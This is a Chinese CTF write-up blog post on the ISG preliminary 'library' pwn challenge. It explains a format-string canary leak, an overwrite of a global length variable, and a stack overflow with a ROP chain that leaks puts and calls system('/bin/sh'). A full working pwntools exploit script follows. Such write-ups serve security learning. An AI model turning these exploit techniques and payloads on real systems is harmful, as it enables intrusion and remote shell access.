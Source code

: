 ```yaml
---
title: ISG初赛library
author: rk700
layout: post
categories:
  - writeup
tags:
  - exploit
---
```


子曰：温故而知新。最近一段时间没有练习pwn的题目，正好当时ISG初赛的library还一直没研究，于是练习了下。果然是稍微放一放就生疏了……

比较明显的问题是在register里，有一个format string attack。但这道题对这里还是有一些限制，比如字符串长度只有15，而且一旦调用过一次就不能再调用了。我最初光考虑这个漏洞了，想好久也没有找到好的方法。因为有ASLR，所以必须先读某个函数的地址，再改got；但是只能调用一次这点限制太严重了，而且15个字符基本上改不了什么。

然后看到query里有一处读输入到栈上的代码，而读的长度是在一个全局变量里保存的，到此才稍微明白了思路：可以改这个全局变量使得读输入溢出，修改返回地址。但在query里还检查了canary，所以我们还需要canary的值，而这个值可以从format string那里得到。由于canary保存在栈上，为了读栈上的内容，用的格式是`%x`，所以要把返回的8 bytes的hex转化为4 bytes的内容。

具体地，改全局变量那里，由于15个字符的限制，只能改一下了，所以可以把全局变量的高位改为非零，这样的话全局变量的值就成了一个大数。

可以修改返回地址后，我又陷入了思维定式，还想再用format string来读函数地址。但正如前面所说，对register有限制；想要修改返回地址为main从头再来，但全局变量那里又需要再改了……最后意识到，一旦可以修改返回地址，就直接rop了，不需要再利用限制那么严格的format string。

于是，用`puts`来打印函数地址。rop最后跳到query里，再一次造成溢出，执行`system`。

{% highlight python %}
#!/usr/bin/env python2

from pwn import *
import sys

if __name__ == '__main__' :
    context(arch='i386', os='linux')

    #libc = ELF('/opt/arch32/usr/lib/libc.so.6')
    systemLibcAddr = 0x3b010#libc.symbols['system']
    #print hex(systemLibcAddr)
    putsLibcAddr = 0x64250#libc.symbols['puts']
    #print hex(putsLibcAddr)
    shStrLibcAddr = 0x15d1b3#next(libc.search('/bin/sh\x00'))
    #print hex(shStrLibcAddr)

    elf = ELF('library')
    putsGot = elf.got['puts']
    putsPlt = elf.plt['puts']

    leftTime = 0x0804b008
    doQuery = 0x08048971

    ip = "127.0.0.1"#sys.argv[1]
    conn = remote(ip, 1111)

    payload = "1\n" + p32(leftTime+1) + "%35$x%10$hn\n"
    conn.send(payload)
    conn.recvuntil("Mr./Mrs. "+p32(leftTime+1))
    canary = int(conn.recvn(8),16)
    #print "canary is %s" % hex(canary)

    payload = "2\n" + "A"*0x100 + p32(canary) + "B"*12 + p32(putsPlt) + p32(doQuery) + p32(putsGot) + "\n"
    conn.send(payload)
    conn.recvuntil(":'(\n")

    putsMemAddr = unpack(conn.recvn(4))
    systemMemAddr = putsMemAddr + (systemLibcAddr - putsLibcAddr)
    shStrMemAddr = putsMemAddr + (shStrLibcAddr-putsLibcAddr)
    #print "system is at %s" % hex(systemMemAddr)
    #print "puts is at %s" % hex(putsMemAddr)
    #print "sh is at %s" % hex(shStrMemAddr)

    payload = "A"*0x100 + p32(canary) + "B"*12 + p32(systemMemAddr) + p32(0xabcdabcd) + p32(shStrMemAddr) + "\n"
    conn.send(payload)

    conn.interactive()
{% endhighlight %}
